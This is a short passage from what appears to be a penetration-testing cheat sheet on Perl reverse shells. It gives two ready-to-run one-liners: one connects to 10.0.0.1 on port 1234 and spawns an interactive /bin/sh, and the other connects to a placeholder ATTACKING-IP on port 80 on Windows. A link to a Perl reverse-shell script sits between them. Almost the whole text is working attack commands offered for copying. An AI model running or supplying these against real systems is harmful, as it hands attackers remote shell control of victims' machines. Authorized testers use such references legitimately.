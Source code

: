```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### <mark style="color:orange;">perl-reverse-shell</mark>

​​[http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

### <mark style="color:orange;">Perl Windows Reverse Shell</mark>

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```



